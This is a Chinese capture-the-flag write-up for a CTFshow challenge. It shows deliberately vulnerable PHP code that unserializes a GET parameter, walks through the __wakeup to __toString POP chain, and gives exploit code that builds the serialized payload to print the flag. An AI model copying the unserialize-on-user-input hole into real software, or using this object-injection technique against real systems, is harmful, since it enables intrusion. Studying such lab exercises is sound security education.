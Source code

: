 # POP链记录2

CTFshow“菜狗杯”中的一道题目。

![image-20221115185826258](https://yvling-typora-image-1257337367.cos.ap-nanjing.myqcloud.com/typora/image-20221115185826258.png)





**分析源码**

```php
<?php
include "flag.php";
highlight_file(__FILE__);

class Moon{
    public $name="月亮";
    public function __toString(){
        return $this->name;
    }
    
    public function __wakeup(){
        echo "我是".$this->name."快来赏我";
    }
}

class Ion_Fan_Princess{
    public $nickname="牛夫人";

    public function call(){
        global $flag;
        if ($this->nickname=="小甜甜"){
            echo $flag;
        }else{
            echo "以前陪我看月亮的时候，叫人家小甜甜！现在新人胜旧人，叫人家".$this->nickname."。\n";
            echo "你以为我这么辛苦来这里真的是为了这条臭牛吗?是为了你这个没良心的臭猴子啊!\n";
        }
    }
    
    public function __toString(){
        $this->call();
        return "\t\t\t\t\t\t\t\t\t\t----".$this->nickname;
    }
}

if (isset($_GET['code'])){
    unserialize($_GET['code']);

}else{
    $a=new Ion_Fan_Princess();
    echo $a;
}
```



**构造流程**

```
1. 获取GET请求参数 'code'，并将code反序列化。
2. 反序列化时最先触发__wakeup函数，在Moon类中有这一函数。
3. 在__wakeup函数中，echo语句将当前对象的成员变量name当作字符串输出，若这里的变量name是某个类的对象，则会触发__toString函数。
4. 这里两个类都有__toString函数，但观察到，Ion_Fan_Princess类中的__toString函数调用了call函数，而call函数有读取flag的操作，所以这里应当将Moon类中的变量name设置成Ion_Fan_Princess类的对象
5. 观察Ion_Fan_Princess类中的call函数，当nickname的值为“小甜甜”时读取flag，所以这里要设置一下。
```



**编写exp**

```php
<?php
class Moon{
    public $name;
}

class Ion_Fan_Princess{
    public $nickname;
}

$moon = new Moon();
$ion = new Ion_Fan_Princess();

$ion->nickname = "小甜甜";
$moon->name = $ion;

echo serialize($moon);
```

获得payload：

![image-20221115202416081](https://yvling-typora-image-1257337367.cos.ap-nanjing.myqcloud.com/typora/image-20221115202416081.png)

传入即可：

![image-20221115202440859](https://yvling-typora-image-1257337367.cos.ap-nanjing.myqcloud.com/typora/image-20221115202440859.png)

![image-20221115202349560](https://yvling-typora-image-1257337367.cos.ap-nanjing.myqcloud.com/typora/image-20221115202349560.png)





